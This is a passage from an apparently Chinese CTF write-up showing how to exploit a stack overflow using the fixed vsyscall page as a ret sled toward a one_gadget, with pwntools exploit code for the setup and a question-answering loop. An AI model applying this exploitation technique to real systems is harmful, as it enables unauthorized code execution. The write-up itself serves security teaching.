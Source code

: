6. 这里看一下 vsyscall 处的数据：

![](https://bbs.pediy.com/upload/attach/202108/904686_2E8Y4RMMW483VK8.jpg)

▲vsyscall 的特点：

(1) 某些版本存在，需要用到 gdb 来查看，IDA 中默认不可见。

(2) 地址不受到 ASLR 和 PIE 的影响，固定是 0xffffffffff600000-0xffffffffff601000。

(3) 不能从中间进入，只能从函数开头进入，意味着不能直接调用里面的 syscall。这里 vsyscall 分为三个函数，从上到下依次是

A.gettimeofday: 0xffffffffff600000

B.time: 0xffffffffff600400

C.getcpu: 0xffffffffff600800

(4)gettimeofday 函数执行成功时返回值就是 0，保存在 rax 寄存器中。这就为某些 one_gadget 创造了条件。

7. 观察代码可以发现，三个函数执行成功之后相当于一个 ret 操作，所以如果我们将 gettimeofday 放在 eip 处，那么就相当于放了一个 ret 操作上去，而 ret 操作又相当于 pop  eip，那么就相当于直接将 rsp 往下拉了一个单位。如果我们多次调用 gettimeofday，那么就可以将 rsp 下拉多个单位，从而抵达我们想要的地方来执行代码。那么这里就可以将 eip 改成 gettimeofday，然后在之后添加多个 gettimeofday 来滑到 one_gadget 来执行代码。

8. 所以现在就可以编写 exp 了

(1) 前置内容：

```
#注释头
 
libc_system_offset = 0x432C0                 
#减去system函数离libc开头的偏移
one_gadget_offset = 0x43158              
#加上one gadget rce离libc开头的偏移
vsyscall_gettimeofday = 0xffffffffff600000
 
io.recvuntil('Choice:')
io.sendline('2') #让system的地址进入栈中
io.recvuntil('Choice:')
io.sendline('1') #调用go()
io.recvuntil('How many levels?')
io.sendline('-1') #输入的值必须小于0，防止覆盖掉system的地址
io.recvuntil('Any more?')
io.sendline(str(one_gadget_offset-libc_system_offset))     
#第二次输入关卡的时候输入偏移值，从而通过相加将system的地址变为one gadget rce的地址

```

这里由于相加关系，levels=system_addr + one_gadget_offset - libc_system_offset, 肯定超过 999，所以关卡数一定是 1000 关。

(2) 开始循环答题，直至到达最后一关执行栈溢出：

```
#注释头
 
def answer():
    io.recvuntil('Question: ') 
    answer = eval(io.recvuntil(' = ')[:-3])
    io.recvuntil('Answer:')
    io.sendline(str(answer))
for i in range(999): #循环答题
    log.info(i)
    answer()

```
